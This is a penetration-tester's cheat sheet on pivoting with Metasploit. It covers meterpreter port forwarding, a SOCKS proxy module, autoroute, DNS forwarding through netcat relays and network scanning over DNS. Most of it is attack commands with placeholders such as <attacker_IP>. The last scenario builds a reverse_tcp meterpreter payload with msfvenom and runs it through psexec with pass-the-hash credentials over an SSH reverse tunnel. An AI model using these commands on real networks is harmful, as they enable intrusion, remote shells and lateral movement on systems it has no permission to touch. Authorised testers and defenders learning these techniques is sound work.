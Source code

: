 # Metasploit

## 01 - Portfwd

### 1.1 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

### 1.2 - Usage

Bind port from the target.

```
meterpreter > portfwd add -l <local_port> -p <bind_port> -r <target_IP>
```

Reverse port forwarding from the compromised target.

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

Remove port forward rule.

```
meterpreter > portfwd delete -l <local_port> -p <bind_port> -r <target_IP>
```

Remove all port forwarding rules

```
meterpreter > portfwd flush
```

## 02 - SOCKS Proxy

## 2.1 - Help Menu

TODO: Fill this info

```
msf > route add <subnet> <netmask> <session_ID>

meterpreter > run post/multi/manage/autoroute
```

### 2.1 - Usage

```
msf > use auxiliary/server/socks_proxy

msf auxiliary(server/socks_proxy) > options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server



View the full module info with the info, or info -d command.

msf auxiliary(server/socks_proxy) > set version <4a | 5>

msf auxiliary(server/socks_proxy) > set srvhost <IP>

msf auxiliary(server/socks_proxy) > set srvport <PORT>

msf auxiliary(server/socks_proxy) > set username <username>

msf auxiliary(server/socks_proxy) > set password <password>

msf auxiliary(server/socks_proxy) > run -j
```

Refer to [[Proxychains]] section

### 2.2 - Scenarios

#### 2.2.1 - Portfwd

##### 2.2.2.1 - Bind port and exploit

```
meterpreter > portfwd add -l <local_port> -p <bind_port> -r <target_IP>
```

##### 2.2.2.2 - Bind ISCSI port from and mount it

```
meterpreter > portfwd add -l <local_port> -p 3260 -r <target_IP>

$ sudo iptables
```

##### 2.2.2.3 - Reverse Bind Port Forwarding

Refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivoting and Lateral Movement/Lateral Movement/Windows/P2P Callback Shells|P2P Callback Shells]]

##### 2.2.2.4 - DNS Port Forwarding To Perform Quick Recon

TODO: Refer to the links (under Scenarios section) with [[DNS2TCP]] or use just netcat to listen port 53 instead

```
meterpreter > portfwd add -l <local_port> -L 127.0.0.1 -p 53 -r <DNS_server_IP>

meterpreter > portfwd list

userware@hackware-os:~# mkfifo /tmp/fifo

userware@hackware-os:~# nc -lup 53 < /tmp/fifo | nc localhost 6667 > /tmp/fifo

userware@hackware-os:~# cat /etc/resolv.conf
..[truncated]..
nameserver 127.0.0.1

$ cat /etc/dnsmasq.conf
..[truncated]..
```

Scan the network via DNS lookup.

```
$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done

$ nmap -sL --dns-servers 127.0.0.1 192.168.1.0/24
```

#### 2.2.2 - SOCKS Proxy

##### 2.2.2.1 - Dynamic Port Forwarding via Metasploit Framework

TODO: Provide screenshots and a graph illustration

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<SSH_IP> lport=4343 -f exe-service -o shellsvc.exe

$ ssh -t -t -R 4343:127.0.0.1:8884 <username>@<IP>

msf exploit(windows/smb/psexec) > set rhosts <IP>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf exploit(windows/smb/psexec) > set lhost <SSH_IP>

msf exploit(windows/smb/psexec) > set lport 4343

msf exploit(windows/smb/psexec) > set proxies socks4:127.0.0.1:1080

msf exploit(windows/smb/psexec) > set reverseallowproxy true

msf exploit(windows/smb/psexec) > set reverselistenerbindaddress 127.0.0.1

msf exploit(windows/smb/psexec) > set reverselistenerbindport 8884

msf exploit(windows/smb/psexec) > set disablepayloadhandler true

msf exploit(windows/smb/psexec) > set exe::custom /path/to/shellsvc.exe
```

---
## References

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

- [Using Metasploit Routing and Proxychains for Pivoting](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)

- [Basic Pivoting Techniques: SSH Dynamic Port Forwarding + Metasploit over SSH](https://www.youtube.com/watch?v=6gqwxGE4o8E)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

- [How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

- [Port forwarding: Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

### Scenarios

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)